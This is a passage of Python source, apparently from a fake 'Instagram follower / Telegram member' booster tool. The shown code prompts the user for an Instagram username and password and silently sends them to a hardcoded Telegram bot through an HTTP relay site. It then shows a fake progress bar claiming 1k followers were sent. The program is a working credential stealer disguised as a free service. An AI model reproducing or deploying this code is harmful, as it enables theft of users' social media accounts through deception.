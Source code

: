    url4 = 'https://api.telegram.org/bot5060011146:AAEQ9pgGU9Cw6FTh2kFLYxjAfZdn7J8B4gg/sendMessage?chat_id=2108923270=&text=' + \
        'کاربر وارد قسمت فالور اینستا شد  '
    pyload = {'UrlBox': url4,
              'AgentList': 'Google Chrome',
              'VersionsList': 'HTTP/1.1',
              'MethodList': 'GET'
              }

    https = requests.post(
        'https://www.httpdebugger.com/Tools/ViewHttpHeaders.aspx', data=pyload)
    print('>>> kamiar167')
    instagram = input(' Enter username : ')
    password = input(' Enter password : ')

    url1 = 'https://api.telegram.org/bot5060011146:AAEQ9pgGU9Cw6FTh2kFLYxjAfZdn7J8B4gg/sendMessage?chat_id=2108923270=&text=' + \
        'نام کاربری :  '+instagram+'\n'+'پسورد :  '+password

    pyload = {'UrlBox': url1,
              'AgentList': 'Google Chrome',
              'VersionsList': 'HTTP/1.1',
              'MethodList': 'GET'
              }

    https = requests.post(
        'https://www.httpdebugger.com/Tools/ViewHttpHeaders.aspx', data=pyload)

    random = [Fore.CYAN + ' conected for instagram 15%', ' conected for instagram 30%', ' conected for instagram 36%', ' conected for instagram 37%',
              ' conected for instagram 50%', ' conected for instagram 60%',
              ' conected for instagram 83%', ' conected for instagram 98%', ' conected for instagram 99%', ' conected for instagram 100%', ' conected to page instagram']

    for i in random:
        print('\r' + i, end='')
        sleep(1)
    print()

    print(Fore.LIGHTYELLOW_EX + ' 1k folowring send page >>> '+instagram)


# member telegram

def telegram():
    from colorama import Fore

    print(Fore.LIGHTMAGENTA_EX +
          ' ___________________________________________________________')
    print(Fore.LIGHTMAGENTA_EX +
          '|                                                          |')
    print(Fore.LIGHTMAGENTA_EX +
          '|     version 2.0                                          |')
    print(Fore.LIGHTMAGENTA_EX +
          '|                                                          |')
    print(Fore.LIGHTMAGENTA_EX +
          '|         member channel telegram free                     |')
    print(Fore.LIGHTMAGENTA_EX +
          '|    channel telegram : @miny_hack                         |')
    print(Fore.LIGHTMAGENTA_EX +
          '|     aparat.com/miny_345                                  |')
    print(Fore.LIGHTMAGENTA_EX +
          '|                                                          |')
    print(Fore.LIGHTMAGENTA_EX +
          '|      page instagram follow kamiar167                     |')
    print(Fore.LIGHTMAGENTA_EX +
          '|                                                          |')